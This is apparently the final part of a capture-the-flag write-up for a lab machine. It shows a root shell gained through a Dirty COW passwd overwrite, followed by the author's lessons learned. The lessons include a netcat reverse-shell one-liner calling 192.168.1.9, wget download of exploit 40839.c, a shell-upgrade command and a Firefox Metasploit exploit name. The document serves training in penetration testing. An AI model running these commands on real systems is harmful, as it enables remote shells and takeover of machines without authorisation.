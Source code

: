 
leopold@leopold:/tmp$ su firefart
su firefart
Password: 12345

firefart@leopold:/tmp# 

firefart@leopold:/tmp# cd /root               
cd /root

firefart@leopold:~# cat flag.txt

# Notes

What I have learned from this machine is

1- Open Responder first thing before doing any scanning maybe you will get something

2- There is an exploit called exploits/multi/browser/firefox_tostring_console_injection.rb that can give you a shell session by using responder to make the victim excute the file that have the local ip URL
3- pentestmonkey reverse shell is apowerfull shell that you can have by netcat and running 
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.9 1234 >/tmp/f in the victim machine
4- to get more stable shell use this command
    python -c "import pty;pty.spawn('/bin/bash')"
5- uname -a is displaying the OS name and that may be a good information to know

6- 3.5.0-17-generic  is vulnarable to a very powerfull vaulnarability called Dirty cow

7- when you know that he machine is vulnarable to a specific vulanarability that are inexploit-db you
    downlaod it
    make it available in html server    python -m SimpleHTTPServer 80
    download it in the victim machin by using wget   wget http://192.168.1.9:80/40839.c
    follow the instruction in how to excute the vulnarability after you have it in the victim machine

8- Dirty cow This exploit uses the pokemon exploit of the dirtycow vulnerability

// as a base and automatically generates a new passwd line.

// The user will be prompted for the new password when the binary is run.

// The original /etc/passwd file is then backed up to /tmp/passwd.bak

// and overwrites the root account with the generated line.

// After running the exploit you should be able to login with the newly

// created user.
